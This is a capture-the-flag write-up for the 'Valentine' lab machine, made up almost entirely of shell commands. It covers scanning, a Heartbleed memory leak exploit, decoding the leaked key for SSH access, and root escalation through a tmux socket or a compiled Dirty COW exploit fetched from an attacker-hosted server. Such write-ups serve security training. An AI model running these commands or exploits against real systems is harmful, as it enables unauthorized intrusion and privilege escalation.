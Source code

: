 # Valentine

## scanning
```bash
furious 10.10.10.79

nmap -sC -sV -p80,443,22 -n -Pn 10.10.10.79 -oN targeted
```
![1852.png](1852.png)

## 80 
```bash
wfuzz -c --hc 403,404 -t 100 -w /usr/share/dirb/wordlists/common.txt http://10.10.10.79/FUZZ
```
![1834.png](1834.png)

http://10.10.10.79/dev/notes.txt

![2255.png](2255.png)
```bash
wget http://10.10.10.79/dev/hype_key
```
![2204.png](2204.png)

## heartbleed
```bash
sslscan 10.10.10.79
```

![2208.png](2208.png)
### Locate categories of nmap
```bash
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u
nmap --script "vuln and safe" -p 443 10.10.10.79
```
![2342.png](2342.png)
```bash
wget https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py

python heartbleed.py 10.10.10.79 -n 150
```
![1349.png](1349.png)
```bash
#dato obtenido
text=aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==
echo $text | base64 -d
# heartbleedbelievethehype
```

## hype_key
```bash
cat hype_key | tr -d " " | xxd -ps -r
```
![1333.png](1333.png)

```bash
ssh -i id_rsa hype@10.10.10.79

cat /home/hype/user.txt
```

## privilege scalation

```bash
ps aux
```
![1510.png](1510.png)

```bash
tmux -S /.devs/dev_sess
cat /root/root.txt
```

## Dirty cow (another form)
![1551.png](1551.png)

```bash
# on victim machine
uname -a
lsb_release -a

# attacker machine
wget https://raw.githubusercontent.com/diego-treitos/linux-smart-enumeration/master/lse.sh
# set a python http server
sudo python3 -m http.server 80

# on victim machine accept the file from the attacker machine
cd /tmp
wget http://10.10.14.5/lse.sh
```

### search for a dirty cow PoC
```bash
searchsploit dirty cow
searchsploit -m linux/local/40839.c
```
### we pass it to the victim machine and compile it there
```bash
mv 40839.c dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty

#ctrl + c
su firefart
cat /root/root.txt
```
![1731.png](1731.png)


